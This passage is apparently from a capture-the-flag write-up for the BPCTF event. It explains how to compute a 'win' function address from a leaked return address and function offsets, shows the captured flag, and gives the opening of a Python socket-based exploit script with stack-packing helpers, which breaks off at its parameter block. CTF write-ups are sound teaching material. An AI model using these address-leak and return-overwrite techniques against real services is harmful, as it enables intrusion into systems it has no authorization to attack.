 Then just need to calculate win address by this formula:
```
WinAddress = ReturnAddress - DecompiledMainAddress + DecompiledWinFuncAddress
```

**Parameters**
```py
calculateWinAddress = True
winFuncOffset = 0x1229
mainFuncOffset = 0x13f3

customAttackCommand = '\ncat flag'
```

**Flag:** `BPCTF{jUsT_le4K_7He_BAse_f6977476f5c4}`

### Attack script for 3 problems above
```py
import socket, re, textwrap
def get_line(createdSocket):
    inputByte = b''
    readNewLine = False
    while True:
        userInputByte = createdSocket.recv(1)
        # print(userInputByte)
        if userInputByte == b'\n' or not userInputByte:
            readNewLine = userInputByte == b'\n'
            break
        inputByte = inputByte + userInputByte

    if len(inputByte) == 0 and not readNewLine:
        return None
    return inputByte.decode()

def send_data(createdSocket, data):
    createdSocket.send(data)

def send_text(createdSocket, data):
    return send_data(createdSocket, data.encode())

def send_line(createdSocket, data):
    return send_text(createdSocket, data + "\n")

def createStackLineStr(hex, stackSize, sep = ''):
    hex = hex[2:]
    if len(hex) % 2 != 0:
        hex = "0" + hex
    x = list(reversed(textwrap.wrap(hex, 2)))

    while len(x) < stackSize:
        x.append("00")

    return sep.join(x)

def createStackHex(hex, stackSize):
    return bytes.fromhex(createStackLineStr(hex, stackSize, ' '))

def createDummyStackHex (count, byte = 65):
    return bytes([byte] * count)

# attack parameters
calculateWinAddress = True # if win function address is not yet explicitly set
winFuncOffset = 0x1229 # offset from base address of win func (if to auto-calc win func address)
mainFuncOffset = 0x13f3 # offset from base address of main func (if to auto-calc win func address)

```